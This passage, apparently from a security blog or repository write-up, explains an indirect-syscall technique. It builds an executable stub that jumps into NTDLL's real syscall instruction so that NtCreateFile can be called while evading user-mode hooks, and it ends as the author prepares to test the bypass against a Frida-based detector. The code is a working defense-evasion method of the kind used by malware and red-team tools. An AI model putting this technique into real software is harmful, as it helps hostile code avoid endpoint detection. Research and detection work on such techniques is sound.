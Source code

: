 ```c
	VirtualProtectEx(GetCurrentProcess(), &finalSyscall, sizeof(finalSyscall), PAGE_EXECUTE_READWRITE, &oldProtect);

	return &finalSyscall;
}
```

This looks a little convoluted but the underlying principle is:

- Construct some assembly bytes which will store our syscall address into the R11 register and then JMP to it
- Insert the address of the syscall in NTDLL into the jmp
- Copy all of that into a buffer
- Give that buffer executable permissions and return it to the user

Then we can call the function providing the NtCreateFile10 assembly stub and a pointer to the legit NTDLL syscall.

```c
NtCreateFile = createObfuscatedSyscall(&NtCreateFile10, ntdllSyscallPointer);
```

Assuming this works, we can then call NtCreateFile normally.

```c
status = NtCreateFile(&fileHandle, FILE_GENERIC_WRITE, &oa, &osb, 0, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_OVERWRITE_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
	if (status != STATUS_SUCCESS) {
		printf("Syscall failed...\n");
	}
	else {
		printf("Syscall succeeded!\n");
	}

	return 0;
```

And there you have it! All of the code necessary in order to:

- Parse NTDLL for an arbitrary syscall stub
- Get the address of the legit syscall instruction
- Patch our malicious syscall stub with a JMP to the legit syscall
- Call our function which will jmp to NTDLL for the syscall

**Note:** One very important thing that I spent forever figuring out is that you need to DISABLE Incremental Linking. If you do not then VS will construct a jump table which will ruin any attempts to access the embedded NtCreateFile stub. You can do this by right clicking the project, selecting Linker > General and setting Enable Incremental Linking to No. There's probably a way around this but I have not found it.

## Testing

So, moment of truth! Does this bypass actually work?

We'll need a Frida script to verify if this bypasses our detection.
